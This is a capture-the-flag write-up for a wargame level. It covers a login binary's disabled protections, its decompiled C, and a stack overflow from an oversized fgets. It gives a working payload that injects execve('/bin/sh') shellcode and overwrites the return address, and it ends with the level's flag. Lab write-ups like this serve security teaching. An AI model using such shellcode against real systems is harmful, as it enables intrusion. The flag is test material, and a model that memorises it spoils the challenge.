

# level00
## Protections

|Protection|Status|Explanation|
|----------|------|-----------|
|**RELRO**|Partial RELRO|Global Offset Table (GOT) is not fully protected. Vulnerable to GOT overwrite attacks.|
|**Stack Canary**|No canary found|Stack overflows are not detected. Return address can be overwritten freely.|
|**NX**|NX disabled|Stack is executable. Classic shellcode injection attacks are possible.|
|**PIE**|No PIE|Binary is loaded at a fixed address in memory. Easier to perform ROP as addresses are predictable.|
|**RPATH/RUNPATH**|None|No custom dynamic linker paths. No impact on typical exploitation.|

## Decompiled code
```C
// The decompiled code looked way worse than this so we humanized it.
#include <stdio.h>
#include <string.h>

char a_user_name[256];

int verify_user_name(void) {
    const char *correct_username = "dat_wil";
    if (strncmp(a_user_name, correct_username, strlen(correct_username)) == 0) {
        return 0;
    } else {
        return 1;
    }
}

int verify_user_pass(const char *input_password) {
    const char *correct_password = "admin";
    if (strncmp(input_password, correct_password, strlen(correct_password)) == 0) {
        return 0;
    } else {
        return 1;
    }
}

int main(void) {
    char password_input[64] = {0};
    int result;

    puts("********* ADMIN LOGIN PROMPT *********");
    printf("Enter Username: ");
    fgets(a_user_name, 256, stdin);
    a_user_name[strcspn(a_user_name, "\n")] = 0;

    result = verify_user_name();
    if (result == 0) {
        printf("Enter Password: ");
        fgets(password_input, 100, stdin);
        password_input[strcspn(password_input, "\n")] = 0;

        result = verify_user_pass(password_input);
        if (result == 0) {
            puts("Access granted.\n");
            return 0;
        } else {
            puts("nope, incorrect password...\n");
            return 1;
        }
    } else {
        puts("nope, incorrect username...\n");
        return 1;
    }
}
```

## Exploit
In the binary, we have 3 functions :
- `verify_user_name()`
- `verify_user_pass()`
- `main()`  
  
In the `main` function, we see that the `fgets` doesn't present a vulnerability so we need to go further in the program to find something. We input the correct username `dat_wil`.  
Then the second `fgets` is limited for a 100 byte string. However, our buffer `password_input` is 64 bytes long. We have a vulnerability here.  
Using a buffer overflow pattern generator we find that the offset is 80. We can start working on a payload now.  
Since NX is disabled, we aim to do a classic shell-code injection. We have a lot of space in the username variable so we will store the shell code after the username and then overflow the EIP to the address of the starting byte of the shell code with an overflow in the userpass variable.  


### Payload
`(python -c 'print("dat_wil" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "\n" + "A" * 80 + "\x47\xa0\x04\x08")'; cat) | ./level01`
## Flag
`PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv`